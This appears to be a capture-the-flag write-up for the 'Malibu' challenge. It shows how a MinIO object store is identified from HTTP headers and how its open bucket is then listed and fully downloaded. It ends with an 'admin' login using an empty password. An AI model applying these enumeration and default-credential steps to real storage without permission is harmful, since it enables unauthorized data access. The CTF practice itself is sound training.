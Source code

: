 # Malibu: Miscellaneous  

Author: Truman Kain  

What do you bring to the beach?  

```
NOTE: There are two things to note for this challenge.  
This service takes a bit more time to start. If you see a Connection refused, please wait a bit more.  
This service will not immediately respond or prompt you... it is waiting for your input. If you just hit Enter, you will see what it is.  
Extra tip, once you know what the service is, try connecting in a better way. Then use some of the context clues and critical thinking based off its response and the challenge description. You don't need any bruteforcing once you understand the infrastructure and enumerate. ;)  
```

Press the Start button on the top-right to begin this challenge.  

#### Begin by connecting to the url, there was discussion that mentioned to use -v  
> $ curl GET http://challenge.ctf.games:31062/ -v    
```
* Could not resolve host: GET
* shutting down connection #0
curl: (6) Could not resolve host: GET
* Host challenge.ctf.games:31062 was resolved.
* IPv6: (none)
* IPv4: 35.193.148.143
*   Trying 35.193.148.143:31062...
* Connected to challenge.ctf.games (35.193.148.143) port 31062
> GET / HTTP/1.1
> Host: challenge.ctf.games:31062
> User-Agent: curl/8.9.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 403 Forbidden
< Accept-Ranges: bytes
< Content-Length: 254
< Content-Type: application/xml
< Server: MinIO
< Strict-Transport-Security: max-age=31536000; includeSubDomains
< Vary: Origin
< Vary: Accept-Encoding
< X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
< X-Amz-Request-Id: 17FB601D2CAAF590
< X-Content-Type-Options: nosniff
< X-Ratelimit-Limit: 59
< X-Ratelimit-Remaining: 59
< X-Xss-Protection: 1; mode=block
< Date: Fri, 04 Oct 2024 22:22:40 GMT
< 
<?xml version="1.0" encoding="UTF-8"?>
* Connection #1 to host challenge.ctf.games left intact
<Error><Code>AccessDenied</Code><Message>Access Denied.</Message><Resource>/</Resource><RequestId>17FB601D2CAAF590</RequestId><HostId>dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8</HostId></Error>  
```

Notice line "Server: MinIO":  
MinIO is an object storage system that uses buckets, like AWS S3  

"What do you bring to the beach?" -- a bucket  
> $ curl GET http://challenge.ctf.games:31062/bucket/ -v   
```
[...]
< HTTP/1.1 200 OK
< Accept-Ranges: bytes
< Content-Length: 45043
< Content-Type: application/xml
< Server: MinIO
[...]
```

> Saved output to bucket_dump.txt  

## SOLUTION 1:
Open bucket_dump.txt in Notepad++, find "<Key>", copy results to keys_dump.txt
Extract names of each key from dump, and download all data

One-liner to cut keys from keys_dump.txt
> $ cat keys_dump.txt | cut -d ">" -f 2 > keys_cut1 && cat keys_cut1 | cut -d "<" -f 1 > keys_cut.txt && rm -rf keys_cut1

Bash script to auto download from url using each key
> $ ./download_keys.sh

Open keys_downloaded folder and search for plaintext flag
> $ find . | grep -r -e "flag" 

## SOLUTION 2:
Download MinIO Client, and download all data
> $ wget https://dl.min.io/client/mc/release/linux-amd64/mc
> $ chmod +x mc
> $ mc alias set myminio/ http://challenge.ctf.games:31062/ admin ```[press Enter for no password]```

> $ mc ls myminio/bucket/
> $ mc cp --recursive myminio/bucket/ .

> $ find . | grep -r -e "flag" 
